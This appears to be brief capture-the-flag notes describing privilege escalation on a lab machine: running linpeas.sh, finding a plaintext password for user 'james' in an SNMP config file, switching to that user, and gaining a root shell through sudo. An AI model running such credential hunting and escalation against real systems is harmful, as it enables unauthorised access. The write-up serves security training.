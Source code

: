 SSHd as user `svc` into the system

Ran `linpeas.sh` and found a password in `/etc/snmp/snmpd.conf`
![[Pasted image 20240905175937.png]]

```bash
su james
```
`james:SuperSecurePassword123__`

```bash
sudo -l
```
![[Pasted image 20240905180359.png]]

Privesc is simple
```bash
sudo /bin/sh
```
